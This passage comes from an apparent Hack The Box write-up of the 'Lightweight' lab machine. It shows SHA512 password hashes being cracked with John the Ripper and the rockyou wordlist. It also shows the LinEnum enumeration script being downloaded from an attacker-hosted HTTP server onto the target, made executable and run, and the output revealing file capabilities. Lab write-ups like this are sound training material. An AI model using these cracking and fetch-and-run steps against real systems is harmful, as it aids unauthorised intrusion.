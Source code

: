 Then run John on the hashes.

```text
root@kali:~/Desktop/htb/lightweight# john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

John identifies the hashes to be SHA512, so it’ll probably take a while to crack these hashes. In the meantime, let’s look for an alternative way to get access to these user accounts.

**Note:** The ****Extra Content __section at the end of this blog explains how to enumerate LDAP manually without having to use the NSE script.

## Initial Foothold <a id="0e62"></a>

Let’s go back to our SSH session and see if there are any security misconfigurations that allow us to escalate privileges to _ldapuser1_ or _ldapuser2_.

To do that, let’s transfer the LinEnum script from our attack machine to the target machine. In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the _/tmp_ directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We see an interesting result pop up.

```text
[+] Files with POSIX capabilities set:
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```
